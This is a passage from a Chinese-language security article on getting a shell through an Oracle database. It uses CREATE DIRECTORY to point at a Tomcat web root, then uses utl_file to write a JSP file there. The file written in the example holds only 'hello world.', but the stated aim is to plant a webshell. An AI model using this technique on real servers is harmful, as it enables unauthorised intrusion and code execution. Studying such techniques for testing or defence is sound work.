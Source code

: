 ##### GetShell

之前的各种 Oracle 文章似乎都提过怎样去 getshell，其实方法倒是有的。但是在 Java 里面你要想拿到 WEB 的根路径比那啥还难。但是 PHP 什么的就不一样了，PHP 里面爆个路径完全是家常便饭。因为数据库对开发语言的无关系，所以或许我们在某些场合下以下的 getshell 方式也是挺不错的。

在有 Oracle 连接权限没有 webshell 时候通过 utl_file 获取 shell

（当然用户必须的具有创建 DIRECTORY 的权限）:

￼![enter image description here](img/img20_u13_png.jpg)

执行：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/'; 
```

当然了 as 后面跟的肯定是你的 WEB 路径。

执行以下 SQL 语句：

创建目录：

```
create or replace directory getshell_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/'; 
```

写入 shell 到指定目录：注意 directory 在这里一定要大写:

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('GETSHELL_DIR','yzmm.jsp','w');
        utl_file.put_line(frw,'hello world.');
        utl_file.fclose(frw);
    end;
/ 
```
